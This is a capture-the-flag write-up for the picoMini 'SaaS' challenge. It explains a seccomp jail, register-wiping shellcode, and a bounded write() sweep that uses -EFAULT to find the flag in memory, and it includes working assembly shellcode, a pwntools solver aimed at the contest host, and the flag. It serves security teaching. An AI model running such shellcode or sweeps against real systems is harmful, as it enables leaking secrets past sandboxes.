

<h1 align="center">🗺️ SaaS</h1>
<p align="center">
  <b>picoMini by redpwn (2021) Binary Exploitation Write-Up</b>
</p>
<p align="center">
  
  
  
  
</p>
<p align="center">
  A Register-Wiping Header, a Two-Syscall Seccomp Jail, and a Bounded write() Sweep
</p>

---

# 📋 Environment

| Item       | Value                                                              |
| ---------- | ----------------------------------------------------------------- |
| Event      | picoMini by redpwn 2021 (run on CyLab Security Academy)            |
| Category   | Binary Exploitation                                               |
| Difficulty | Hard                                                             |
| Author     | notdeghost                                                        |
| Handout    | `chall` (64-bit PIE ELF), `chall.c`, `Dockerfile`                 |
| Task       | Run shellcode under seccomp and exfiltrate the flag              |
| Tools Used | `pwntools`, `readelf`, a short local ASLR probe                   |

---

# 🗺️ Overview

> The service mmaps a read/write/execute page, copies a fixed **HEADER** of assembly in front of whatever shellcode you send, applies a seccomp filter, and jumps to your code. The flag is read into a global buffer **before** your code runs, so it is already sitting in memory. The catch is the jail: seccomp allows only `write` to stdout and `exit`, so there is no `open`/`read`/`execve`, and the exploit is simply to `write` the flag's bytes to stdout. The twist is that the HEADER zeroes every register (including `rsp`), so there is no pointer to leak the PIE base from and you do not know where the flag is. The fix uses two facts: `write()` on an unmapped address returns `-EFAULT` instead of crashing, and the flag always lands at `base + 0x202060` with a 2 MB-aligned base. That makes the flag address `k * 0x200000 + 0x2060`, so a 2 MB-step sweep lands exactly on it. Bound the sweep to the real ASLR window, stop on the first mapped hit, and the flag walks straight out.

Steps:
* Read `chall.c`: RWX page, prepended HEADER, seccomp, `goto *addr`
* Note the only survivable syscall is `write(1, ptr, n)`
* Locate the flag: global at offset `0x202060`, base 2 MB-aligned
* Sweep candidate addresses with `write`, using `-EFAULT` to skip unmapped pages
* Bound the sweep to the true PIE ASLR window and break on the first mapped page

---

# 📑 Table of Contents

1. [The Service](#the-service)
2. [The Seccomp Jail](#the-seccomp-jail)
3. [The Register Wipe](#the-register-wipe)
4. [Where the Flag Lives](#where-the-flag-lives)
5. [The write() EFAULT Trick](#the-write-efault-trick)
6. [Why the Textbook Sweep Returns Zero](#why-the-textbook-sweep-returns-zero)
7. [The Bounded Sweep](#the-bounded-sweep)
8. [The Exploit](#the-exploit)
9. [Flag](#-flag)
10. [Solution Summary](#solution-summary)
11. [Lessons and Takeaways](#lessons-and-takeaways)

---

# The Service

`main` loads the flag into a global, allocates one RWX page, copies a fixed HEADER in front of your input, reads up to `0x100` bytes of shellcode after it, installs the seccomp filter, and jumps:

```c
char flag[FLAG_SIZE];              // FLAG_SIZE = 64, a global in .bss

void load_flag() {                 // runs BEFORE your shellcode
  int fd = open("flag.txt", O_RDONLY);
  read(fd, flag, FLAG_SIZE);       // flag now sits in memory
  close(fd);
}

int main() {
  load_flag();
  void* addr = mmap(NULL, 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE,
                    MAP_PRIVATE | MAP_ANON, -1, 0);
  memcpy(addr, HEADER, sizeof(HEADER));          // register-wiping prologue
  read(0, addr + sizeof(HEADER) - 1, SIZE);      // your shellcode (SIZE = 0x100)
  setup();                                       // seccomp
  goto *addr;                                     // run HEADER + shellcode
}
```

The flag is already in the process when your code starts. There is nothing to leak off disk, it is pure "find it in memory and print it."

> **In plain terms:** this is "shellcode as a service." You hand it assembly, it runs it. The flag is already loaded into a fixed global variable, so the whole challenge is reduced to two questions: what syscalls are you allowed to make, and where in memory is that variable?

---

# The Seccomp Jail

`setup()` builds a `SCMP_ACT_KILL` filter and whitelists exactly three calls:

```c
seccomp_init(SCMP_ACT_KILL);                                  // default: kill
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 1,
                 SCMP_A0(SCMP_CMP_EQ, STDOUT_FILENO));        // write, fd == 1 only
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
```

So the only data channel is `write(1, ptr, n)`, and even that is pinned to file descriptor 1. `open`, `read`, `execve`, `mmap`, `mprotect`, anything else, is an instant kill. The exploit therefore cannot read `flag.txt` itself; it must point `write` at the already-loaded `flag` global.

> **In plain terms:** the jail leaves you one verb: print. You cannot open files, spawn a shell, or even read with a different file descriptor. You can only copy bytes from an address of your choosing to stdout. The flag is in memory, so that is enough, provided you know the address.

---

# The Register Wipe

Before your shellcode runs, the HEADER executes. It zeroes a slab of stack and then clears every general-purpose register:

```asm
xor rax, rax
mov rdi, rsp
and rdi, 0xfffffffffffff000
sub rdi, 0x2000
mov rcx, 0x600
rep stosq                 ; zero 0x3000 bytes of stack around rsp
xor rbx, rbx
xor rcx, rcx
xor rdx, rdx
xor rsp, rsp              ; <- the stack pointer is wiped too
xor rbp, rbp
xor rsi, rsi
...
xor r15, r15             ; every GP register is now 0
```

This is the real difficulty. Normally you would read a saved return address or an `auxv` pointer off the stack to recover the PIE base. Here `rsp` itself is zero, so there is no stack pointer, and the nearby stack is zeroed anyway. The only non-zero register is `rip`, which points into the RWX page, unrelated to where the binary (and the flag) is loaded.

> **In plain terms:** the usual way to find the flag is to follow a pointer that reveals where the program is loaded. The HEADER erases all of them, including the stack pointer. You are left blind: you know the flag exists, but you have no breadcrumb to its address.

---

# Where the Flag Lives

Pull the flag's location and the segment layout straight from the ELF:

```text
$ readelf -sW chall | grep ' flag$'
   75: 0000000000202060    64 OBJECT  GLOBAL DEFAULT   24 flag

$ readelf -lW chall | grep -A1 LOAD
  LOAD  0x000000 0x0000000000000000 ... R E 0x200000
  LOAD  0x001d50 0x0000000000201d50 ... RW  0x200000
```

Two facts come out of this:

* `flag` is at virtual offset **`0x202060`**.
* The writable segment has alignment **`0x200000`** (2 MB), and PIE images are themselves loaded on a 2 MB boundary.

Because the base is a multiple of `0x200000`, the runtime flag address is:

```text
flag_addr = base + 0x202060
          = (base + 0x200000) + 0x2060          ; base + 0x200000 is still 2 MB-aligned
          = k * 0x200000 + 0x2060               ; for some integer k
```

So no matter what ASLR picks, `flag_addr mod 0x200000 == 0x2060`:

```text
0x202060 mod 0x200000 = 0x2060
```

That is the key. A sweep that steps by `0x200000` and keeps the low bits `0x2060` does not just land in the flag's *page*; it lands on the flag's *exact address* every time the base is right.

> **In plain terms:** you do not know the base, but you know the flag always sits the same small distance past a 2 MB boundary. If you probe addresses that are all "2 MB boundary + 0x2060," one of them is the flag exactly; you just have to find which boundary the program landed on.

---

# The write() EFAULT Trick

Probing random addresses would normally crash the process the first time you touch unmapped memory. But a syscall does not fault the way a raw instruction does. The kernel validates the buffer and returns an error instead:

```text
write(1, mapped_addr,   n)  ->  n           (bytes printed)
write(1, unmapped_addr, n)  ->  -EFAULT = -14   (no crash, no output)
```

So `write` doubles as a memory-probe: a negative return means "nothing mapped here, keep going," and a positive return means "this page is mapped, and given our residue, it is the flag." This is what makes a sweep survivable at all.

> **In plain terms:** `write` quietly tells you whether an address is valid instead of killing you for guessing wrong. That turns "print the flag" into "scan memory until a print succeeds."

---

# Why the Textbook Sweep Returns Zero

The common published solver starts low (around `0x550000002060`) and sweeps upward forever. It works on some deployments and returns **0 bytes** on this one. The reason is the size of the PIE ASLR window. Probing the local binary across 40 runs shows where the base actually lands:

```python
# send a 2-byte spin shellcode (jmp $ = \xeb\xfe), read /proc/<pid>/maps, record the base
for _ in range(40):
    p = process('./chall'); p.recvuntil(b'Service!\n'); p.send(b'\xeb\xfe')
    base = int(next(l for l in open(f'/proc/{p.pid}/maps')
                    if l.rstrip().endswith('/chall')).split('-')[0], 16)
    p.kill()
```

| Measurement                       | Value                         |
| --------------------------------- | ----------------------------- |
| Lowest base observed              | `0x555c96400000`              |
| Highest base observed             | `0x5653cae00000`              |
| Span of the base range            | ~988 GB (≈ 2^40, a full 1 TB) |
| `(flag_addr) mod 0x200000`        | `0x2060` on every run         |

The base is spread across roughly a **1 TB** window (x86-64 PIE with `mmap_rnd_bits = 28`). A sweep that starts at `0x54...` burns about **700,000** probes crossing empty space before it ever reaches the lowest real base, and the textbook version never breaks, so it keeps probing the full range every run. The CyLab jail enforces a time/CPU limit and kills the process before the probe ever reaches the flag's boundary, so the client receives nothing. The earlier diagnostic that printed `4096 bytes` from the RWX page confirmed the `write` channel itself was fine; the problem was purely that the sweep was too long and started in the wrong place.

> **In plain terms:** the map is enormous. The usual solver starts its walk a thousand kilometers before the first house on the street and never stops early, so the timer runs out before it reaches the flag. Nothing is broken; the walk is just badly bounded.

---

# The Bounded Sweep

Fix both problems: start at the true low edge of the ASLR window, cap at the true high edge, and **break on the first mapped page**. Within that window the only mapped page whose address ends in `0x2060` is the flag itself, so the first positive `write` is the answer:

```asm
    mov edi, 1                 ; fd = stdout
    mov rsi, 0x555555402060    ; low edge of the window (residue 0x2060)
    mov rbx, 0x565555602060    ; high edge (covers base up to 0x565555400000)
scan:
    mov eax, 1                 ; sys_write
    mov edx, 0x40              ; 64 bytes = FLAG_SIZE
    syscall                    ; write(1, rsi, 64)
    test rax, rax
    jg  found                  ; rax > 0  -> page mapped == flag page
    add rsi, 0x200000          ; -EFAULT  -> step one 2 MB boundary
    cmp rsi, rbx
    jb  scan
    jmp done
found:
    mov eax, 1                 ; dump a little extra, just in case
    mov edx, 0x60
    syscall
done:
    mov eax, 60                ; sys_exit
    xor edi, edi
    syscall
```

The window is exactly 2^40 (`0x565555602060 - 0x555555402060`), so the absolute worst case is:

```text
(0x565555602060 - 0x555555402060) / 0x200000 = 524289 probes
```

Each probe is one cheap `-EFAULT` syscall, and the loop exits the instant it hits the flag. The shellcode is **77 bytes**, well under the `0x100` input limit. Tested against the local binary with ASLR on, it recovered the flag **20/20 runs**, worst case **0.56 s**, average **0.34 s**, comfortably inside any jail timeout.

> **In plain terms:** start the walk at the first real house, end it at the last, and stop the moment a door opens. Because every candidate address ends in the flag's fixed offset, the first door that opens is the flag's.

---

# The Exploit

```python
#!/usr/bin/env python3
import re, sys
from pwn import asm, context, remote, process, log

context.arch = 'amd64'
context.log_level = 'error'

LOW  = 0x555555402060   # covers PIE base down to 0x555555400000
HIGH = 0x565555602060   # covers PIE base up to   0x565555400000
STEP = 0x200000         # 2 MB == LOAD alignment == flag-page stride

shellcode = asm(f'''
    mov edi, 1
    mov rsi, {LOW}
    mov rbx, {HIGH}
scan:
    mov eax, 1
    mov edx, 0x40
    syscall
    test rax, rax
    jg  found
    add rsi, {STEP}
    cmp rsi, rbx
    jb  scan
    jmp done
found:
    mov eax, 1
    mov edx, 0x60
    syscall
done:
    mov eax, 60
    xor edi, edi
    syscall
''')
assert len(shellcode) <= 0x100

def get_io():
    if len(sys.argv) >= 3:
        return remote(sys.argv[1], int(sys.argv[2]))
    return process('./chall')

io = get_io()
io.sendafter(b'Shellcode as a Service!\n', shellcode)
data = io.recvall(timeout=30)
io.close()
print(re.search(rb'picoCTF\{[^}]*\}', data).group().decode())
```

Point it at the service and the flag drops out:

```text
$ python3 solve.py mars.cylabacademy.net 31021
picoCTF{f0ll0w_th3_m4p_t0_g3t_th3_fl4g}
```

---

# 🚩 Flag

```text
picoCTF{f0ll0w_th3_m4p_t0_g3t_th3_fl4g}
```

The flag is the method: follow the memory map to get the flag.

---

# Solution Summary



---

# Lessons and Takeaways

* **A whitelist of `write` + `exit` is still an exfil channel.** You cannot open or read files, but if the secret is already in memory, `write(1, addr, n)` is all you need. The challenge collapses to locating the address.
* **`write()` fails soft, so it probes memory.** A syscall returns `-EFAULT` on a bad buffer instead of raising `SIGSEGV`. That turns an otherwise fatal address scan into a safe loop, the core trick that makes a blind sweep possible.
* **Alignment pins the low bits.** The flag is at offset `0x202060` and the base is 2 MB-aligned, so `flag_addr mod 0x200000` is always `0x2060`. Sweeping with that residue and a `0x200000` stride lands on the exact address, not just the right page.
* **Bound the search to the real ASLR window.** x86-64 PIE randomizes the base across ~2^40. Measuring the actual low and high bases turns an open-ended, timeout-killed sweep into ~524k cheap probes that fit inside the jail's limit, and breaking on the first mapped hit makes it self-terminating.

---

Written by **TheDingo8MyBaby**
picoMini by redpwn 2021 • SaaS • flag: picoCTF{f0ll0w_th3_m4p_t0_g3t_th3_fl4g}
